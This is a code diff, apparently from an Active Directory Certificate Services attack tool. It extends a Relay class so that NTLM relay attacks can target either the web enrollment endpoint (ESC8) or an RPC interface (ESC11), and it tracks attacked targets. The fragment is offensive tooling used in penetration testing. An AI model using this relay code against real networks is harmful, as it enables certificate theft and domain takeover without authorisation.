 ```diff
+
+
 class Relay:
     def __init__(
         self,
-        ca,
+        target,
+        ca=None,
         template=None,
         upn=None,
         dns=None,
         sid=None,
         retrieve=None,
         key_size: int = 2048,
         out=None,
@@ -383,14 +632,15 @@
         port=445,
         forever=False,
         no_skip=False,
         timeout=5,
         debug=False,
         **kwargs
     ):
+        self.target = target
         self.ca = ca
         self.template = template
         self.upn = upn
         self.dns = dns
         self.sid = sid
         self.request_id = int(retrieve)
         self.key_size = key_size
@@ -402,27 +652,43 @@
         self.interface = interface
         self.port = port
         self.kwargs = kwargs
 
         self.attacked_targets = []
         self.attack_lock = Lock()
 
-        target = "http://%s/certsrv/certfnsh.asp" % ca
-        logging.info("Targeting %s" % target)
+        if self.target.startswith("rpc://"):
+            if ca is None:
+                logging.error("A certificate authority is required for RPC attacks")
+                exit(1)
+
+            logging.info("Targeting %s (ESC11)" % target)
+        else:
+            if not self.target.startswith("http://"):
+                self.target = "http://%s" % self.target
+            if not self.target.endswith("/certsrv/certfnsh.asp"):
+                if not self.target.endswith("/"):
+                    self.target += "/"
+                self.target += "certsrv/certfnsh.asp"
+            logging.info("Targeting %s (ESC8)" % self.target)
 
         target = TargetsProcessor(
-            singleTarget=target,
+            singleTarget=self.target, protocolClients={"HTTP": self.get_relay_http_server, "RPC": self.get_relay_rpc_server}
         )
 
         config = NTLMRelayxConfig()
```